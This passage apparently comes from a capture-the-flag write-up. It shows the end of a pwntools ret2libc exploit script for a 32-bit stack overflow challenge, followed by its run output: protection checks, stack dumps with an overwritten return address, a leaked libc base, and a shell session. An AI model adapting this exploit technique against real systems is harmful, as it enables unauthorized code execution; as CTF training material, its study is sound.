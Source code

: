```
payload1 += p32(0x30303030)
payload1 += p32(libcBase + binshOffset)

target.sendline(payload1)

target.interactive()
```

When we run it:

```
$    python exploit.py
[+] Opening connection to chal.utc-ctf.club on port 4902: Done
[*] '/Hackery/utc/shelltime/libc6_2.27-3ubuntu1_i386.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/Hackery/utc/shelltime/server'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xffbba510 | 00 00 00 00 00 00 00 00 |
0xffbba518 | 00 00 00 00 00 00 00 00 |
0xffbba520 | 00 00 00 00 00 00 00 00 |
0xffbba528 | 00 00 00 00 00 00 00 00 |
0xffbba530 | ff ff ff ff ff ff ff ff |
0xffbba538 | ff ff ff ff ff ff ff ff |
0xffbba540 | c0 d5 ef f7 00 a0 04 08 |
0xffbba548 | 58 a5 bb ff 8b 86 04 08 |
Return address:
 0x0804868b

Input some text:
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xffbba510 | 30 30 30 30 30 30 30 30 |
0xffbba518 | 30 30 30 30 30 30 30 30 |
0xffbba520 | 30 30 30 30 30 30 30 30 |
0xffbba528 | 30 30 30 30 30 30 30 30 |
0xffbba530 | 30 30 30 30 30 30 30 30 |
0xffbba538 | 30 30 30 30 30 30 30 30 |
0xffbba540 | 30 30 30 30 30 30 30 30 |
0xffbba548 | 30 30 30 30 10 84 04 08 |
Return address:
 0x08048410



libc base: 0xf7d25000
[*] Switching to interactive mode

Legend: buff \x1b[32;1mMODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xffbba518 | 00 00 00 00 00 00 00 00 |
```